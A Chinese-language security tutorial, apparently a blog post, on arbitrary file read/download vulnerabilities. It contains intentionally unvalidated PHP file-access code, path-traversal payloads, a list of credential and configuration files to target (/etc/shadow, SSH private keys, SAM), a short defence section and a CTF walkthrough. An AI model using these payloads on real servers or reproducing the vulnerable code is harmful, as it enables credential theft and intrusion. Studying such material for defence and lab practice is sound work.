

# 任意文件读取 / 下载漏洞
# 写在前面
任意文件下载漏洞，正常的利用手段是下载服务器文件，如脚本代码，服务器的配置文件或系统的配置文件等。但是有的时候我们可能不知道网站所处的环境，以及网站的路径，这个时候只能利用../../ 来逐层猜测路径。
# 为什么产生任意文件读取 / 下载漏洞？
一些网站的业务需要，可能提供文件查看或下载的功能，如果对用户查看或下载的文件不做限制，就能够查看或下载任意的文件，可以是源文件，敏感文件等等。
# 漏洞利用条件
- 存在读取文件的函数
- 读取文件的路径用户可控，且未校验或校验不全
- 输出文件内容
# 文件读取代码实现
<?php | |
$filename = $_GET['filename']; | |
// readfile($filename); | |
echo file_get_contents($filename); | |
?> |
readfile() 、 file_get_contents() 、 fopen() 中， $filename 没有经过校验或者校验不合格，用户可控制变量读取任意文件，如 ?filename=/etc/passwd 、 filename=./index.php 、 filename=/config.ini 。
# 文件下载代码实现
<?php | |
// 传入文件名 | |
$file_path="download/{$_GET['filename']}"; | |
// 判断是否存在文件 | |
if(!file_exists($file_path)){ | |
echo "你要下载的文件不存在，请重新下载"; | |
return; | |
} | |
$fp = fopen($file_path, "rb"); | |
$file_size = filesize($file_path); | |
// 下载文件需要用到的头 | |
ob_clean();// 输出前一定要 clean 一下，否则图片打不开 | |
Header("Content-type: application/octet-stream"); | |
Header("Accept-Ranges:bytes"); | |
Header("Accept-Lenght:".$file_size); | |
Header("Content-Disposition: attachment; filename=".basename($file_path)); | |
$buffer = 1024; | |
$file_count = 0; | |
// 循环读取文件输出 | |
// 循环读取文件流，然后返回到浏览器，feof 确认是否到 EOF | |
// 不然下载的文件是没有数据的 | |
while(!feof($fp) && $file_count < $file_size){ | |
$file_con = fread($fp, $buffer); | |
$file_count += $buffer; | |
echo $file_con; | |
} | |
fclose($fp); | |
?> |
# 漏洞的验证
index.php?f=../../../../../../etc/passwdindex.php?f=../index.phpindex.php?f=file:///etc/passwdindex.php?f=../../../../../../Users/desktop.ini
[!NOTE]
当参数 f 的参数值为 php 文件时
若文件被解析，就是文件包含漏洞
若显示源码或提示下载，则是任意文件读取 / 下载漏洞
# 漏洞的利用
- 下载常规的配置文件，例如: ssh,weblogic,ftp,mysql 等相关配置
- 下载各种
.log文件，从中寻找一些后台地址，文件上传点之类的地方，如果运气好的话会获得一些前辈们的后门。 - 下载 web 业务文件进行白盒审计，利用漏洞进一步攻入服务器。
# 利用思路
-
当遇到一个任意下载文件漏洞时，首先要注意权限的问题。权限决定我们能下载的范围。尝试读取
/root/.bash_history看自己是否具有 root 权限。 -
没有 root 权限，利用
../来回跳转读取一些.ssh下的配置信息文件。读取 mysql 下的.bash_history文件。来查看是否记录了一些可以利用的相关信息。 -
逐个下载需要审计的代码文件，但是下载的时候变得很繁琐，只能尝试去猜解目录，然后下载一些中间件的记录日志进行分析。
-
如果遇到的是 java+oracle/jsp+oracle 环境，可以先下载
WEB-INF/applicationContext.xml或WEB-INF/web.xml文件，这里面记载的是 web 服务器的相应配置，然后下载WEB-INF/classes/xxx/xxx/ccc.class对文件进行反编译，然后搜索文件中的 upload 关键字看是否存在一些 api 接口，如果存在的话我们可以本地构造上传页面用 api 接口将我们的文件传输进服务器。 -
如果有 root 权限，可以去读
/etc/shadow文件。 -
更好的办法是使用 locate，Linux 中命令 locate 是用来查找文件或目录的，它不搜索具体目录，而是搜索一个数据库
/var/lib/mlocate/mlocate.db。这个数据库中含有本地所有文件信息。Linux 系统自动创建这个数据库，并且每天自动更新一次。当我们不知道路径是什么的情况下，我们利用任意文件下载漏洞将
mlocate.db文件下载下来，利用 locate 命令将数据输出成文件，这里面包含了全部的文件路径信息。locate 读取方法
locate mlocate.db admin将 mlocate.db 中包含 admin 内容全部输出来
利用这个文件我们可以获取到该服务器任何我们想要的内容并下载出来而不用一个一个去猜解目录，但是这个文件只有 root 用户才能读取。
-
另一方面也可以利用 linux 内核的一个文件
/proc/self/cmdline当前进程的cmdline参数，可以获取到路径信息。
# 常见利用文件
Windows：
C:\boot.ini // 查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS 配置文件
C:\Windows\repair\sam // 存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql 配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php 配置信息
C:\Windows\my.ini //Mysql 配置信息
C:\Windows\win.ini //Windows 系统的一个基本系统配置文件
Linux：
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts // 记录每个访问计算机用户的公钥
/etc/passwd
/etc/shadow
/etc/my.cnf //mysql 配置文件
/etc/httpd/conf/httpd.conf //apache 配置文件
/root/.bash_history // 用户历史命令记录文件
/root/.mysql_history //mysql 历史命令记录文件
/proc/mounts // 记录系统挂载设备
/porc/config.gz // 内核配置文件
/var/lib/mlocate/mlocate.db // 全文件路径
/porc/self/cmdline // 当前进程的 cmdline 参数、
# 漏洞防御与修复
- 过滤
.点，使用户在 url 中不能回溯上级目 - 正则严格判断用户输入的参数
php.ini配置open_basedir限定文件访问范围
# 漏洞利用实战
靶场地址： https://buuoj.cn/challenges
题目名：[RoarCTF 2019]Easy Java

点击 hlep，将 GET 改为 POST，将 help.docx 下载下来
没有 Flag...
但是可以看到 ?filename=help.docx 盲猜有任意文件下载漏洞
直接点 help 不抓包，可以看到 Java 开发的
尝试下载 WEB-INF/web.xml ，下载成功， WEB-INF_web.xml
web.xml 文件：
<?xml version="1.0" encoding="UTF-8"?> | |
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee" | |
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" | |
xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd" | |
version="4.0"> | |
<welcome-file-list> | |
<welcome-file>Index</welcome-file> | |
</welcome-file-list> | |
<servlet> | |
<servlet-name>IndexController</servlet-name> | |
<servlet-class>com.wm.ctf.IndexController</servlet-class> | |
</servlet> | |
<servlet-mapping> | |
<servlet-name>IndexController</servlet-name> | |
<url-pattern>/Index</url-pattern> | |
</servlet-mapping> | |
<servlet> | |
<servlet-name>LoginController</servlet-name> | |
<servlet-class>com.wm.ctf.LoginController</servlet-class> | |
</servlet> | |
<servlet-mapping> | |
<servlet-name>LoginController</servlet-name> | |
<url-pattern>/Login</url-pattern> | |
</servlet-mapping> | |
<servlet> | |
<servlet-name>DownloadController</servlet-name> | |
<servlet-class>com.wm.ctf.DownloadController</servlet-class> | |
</servlet> | |
<servlet-mapping> | |
<servlet-name>DownloadController</servlet-name> | |
<url-pattern>/Download</url-pattern> | |
</servlet-mapping> | |
<servlet> | |
<servlet-name>FlagController</servlet-name> | |
<servlet-class>com.wm.ctf.FlagController</servlet-class> | |
</servlet> | |
<servlet-mapping> | |
<servlet-name>FlagController</servlet-name> | |
<url-pattern>/Flag</url-pattern> | |
</servlet-mapping> | |
</web-app> |
可以看到 FlagController 类
<servlet> | |
<servlet-name>FlagController</servlet-name> | |
<servlet-class>com.wm.ctf.FlagController</servlet-class> | |
</servlet> |
位置： WEB-INF/classes/com/wm/ctf/FlagController.class ，利用任意文件下载漏洞下载.class 文件
反编译.class 文件
javap -c -l FlagController.class |
得到 flag： ZmxhZ3s2YWY0ZWI2Yy01MjVkLTQ4MjUtOTY3NC1iODAxYTgyMmM1Y2V9Cg== , base64 加密
解密得到 flag：flag
# 写在后面
总体来说，任意文件下载漏洞的利用主要是为了信息收集，我们通过对服务器配置文件的下载，获取到大量的配置信息、源码，从而根据获取的信息来进一步挖掘服务器漏洞从而入侵。
# 参考文章
https://www.cnblogs.com/zhaijiahui/p/8459661.html
https://xz.aliyun.com/t/6594?time__1311=n4%2BxnD0Dg7i%3D3BKG%3DGODlhjeYiI9Ffxbr4DvQ4x#toc-4